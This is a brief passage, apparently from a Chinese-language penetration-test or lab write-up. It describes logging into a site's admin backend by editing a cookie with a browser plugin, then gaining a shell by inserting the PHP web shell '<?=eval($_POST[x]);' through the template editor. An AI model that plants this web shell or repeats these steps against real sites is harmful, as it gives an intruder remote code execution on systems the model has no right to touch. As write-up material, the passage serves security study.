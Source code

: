 再浏览器 cookie editor 插件修改cookie 后登录后台 

<img src=".\图片\Snipaste_2023-10-25_19-44-30.png" alt="Snipaste_2023-10-25_19-44-30" style="zoom:80%;" />

## 后台getshell

在模版编辑里修改代码写 shell 

```
<?=eval($_POST[x]);
```

常规shell还不行，必须得是这种
